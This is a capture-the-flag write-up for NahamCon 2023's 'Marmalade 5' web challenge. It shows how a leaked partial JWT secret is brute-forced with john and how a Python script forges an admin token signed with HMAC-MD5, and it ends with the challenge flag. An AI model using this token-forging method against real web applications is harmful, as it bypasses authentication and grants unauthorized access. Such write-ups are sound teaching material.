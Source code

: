 # NahamCon 2023

## Marmalade 5

> Enjoy some of our delicious home made marmalade!
>
>  Author: @congon4tor#2334
>

Tags: _web_

## Solution
The web page lets users login with only a username. Logging in with any name gives the note

```
Only the admin can see the flag.
```

Logging in as admin does fail with the message

```
Login as the admin has been disabled
```

In the cookies we can find a `Jason Web Token` that contains the username in the payload and is using MD5-HMAC as signing algorithm. Crafting a token is not possible without knowing the secret but we can try nevertheless.

By using the new token the following message is provided which leaks the algorithm and the first part of the secret.

```
"Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****"
```

The rest of the secret can easily be bruteforced with `john`. To do this the `jwt` need to be transformed to a format `john` can parse. It's easy as just the signature part needs to be replaced with the hex values of the decoded signature and attached via `#` instead of `.`.

```bash
echo -e "3R1XbK5O2t6MZ0ir6KJdRw" | base64 -d | hex
dd1d576cae4edade8c6748abe8a25d47
```

The final input for `john` looks something like `eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6InRlc3QifQ#dd1d576cae4edade8c6748abe8a25d47`.

```bash
$ john token --mask=fsrwjcfszeg?l?l?l?l?l --format=HMAC-MD5
```

The full secret, as found by `john`, is `fsrwjcfszegvsyfa`. With this secret we can forge a valid token for `admin`.

```python
import base64
import json
import hashlib
import hmac

header = {
    "alg": "MD5_HMAC"
}
payload = {
    "username": "admin"
}

token = base64.urlsafe_b64encode(bytearray(json.dumps(header), "utf-8")).rstrip(b"=") + b"."\
        + base64.urlsafe_b64encode(bytearray(json.dumps(payload), "utf-8")).rstrip(b"=")

hmac_md5 = hmac.new(bytes("fsrwjcfszegvsyfa", "utf-8"), token, hashlib.md5)

token = token + b"." + base64.urlsafe_b64encode(hmac_md5.digest())

print(token.decode("utf-8"))
```

Replacing the token for the currently logged in user with the new token gives admin visibility and shows the flag.

Flag `flag{a249dff54655158c25ddd3584e295c3b}`